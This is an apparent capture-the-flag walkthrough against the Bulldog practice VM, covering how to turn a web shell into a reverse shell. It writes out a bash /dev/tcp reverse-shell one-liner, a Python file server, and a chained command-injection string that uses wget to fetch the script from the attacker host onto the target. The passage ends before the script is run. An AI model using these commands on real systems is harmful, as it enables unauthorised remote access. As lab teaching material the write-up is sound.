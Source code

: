 
Here is an overview:
1. Save a single command that connects a reverse shell back to our Kali machine to a file - this is known as a script. Create it, but don't run it on Kali.
2. Use Kali as a web host, allowing Bulldog to download files from Kali.
3. Run commands in the web shell to *download* the script *to* Bulldog from Kali.
4. Run commands in the web shell to *execute* the script *on* Bulldog.
5. Bulldog begins talking, and Kali is set up to listen. Shell created.


I chose port number `1234` arbitarily because it is easy to remember. <br>
You can use any number you like, as long as it doesn't overlap with other protocols (like HTTP at port 80).
Pentesters like to use ports 1337 and 31337 for fun.
I like to use port numbers 51000 and higher since they are not often assigned to a standard protocol.


#### Shell Step 1 - Writing the Script

First, we need to create the script.<br>
This is as simple as writing the reverse shell command to a file that we give a `.sh` extension.

Run the following command on Kali in your working `~/bulldog` directory. <br>
Replace `KALI_IP` with Kali's Host-Only IP address - `192.168.56.xx`

`echo "bash -i >& /dev/tcp/KALI_IP/1234 0>&1" > script.sh`


#### Shell Step 2 - Hosting the Script

Next, we need to set up Kali as a file server that Bulldog can download from.
Kali contains a built in method for doing this using Python.
We just have to provide a port number.

Again, run this inside `~/bulldog`

`python -m SimpleHTTPServer 1234`

<br>
![A27](https://i.imgur.com/dxMLenc.png)
<br>


Let this run, then go to the browser to run step 3.

#### Shell Step 3 - Downloading the Script

The command we run through the webshell will need to download the script from Kali and make it executable.

We will need to break our command down into parts:
*	`pwd` to trick the if statement
*	`cd /tmp` to change to a directory where we have permission to download files
*	`wget  http://KALI_IP:1234/script.sh` to download to that directory
*	`chmod +x script.sh` to make the script executable

Run this in the webshell:
`pwd && cd /tmp && wget http://KALI_IP:1234/script.sh && chmod +x script.sh`
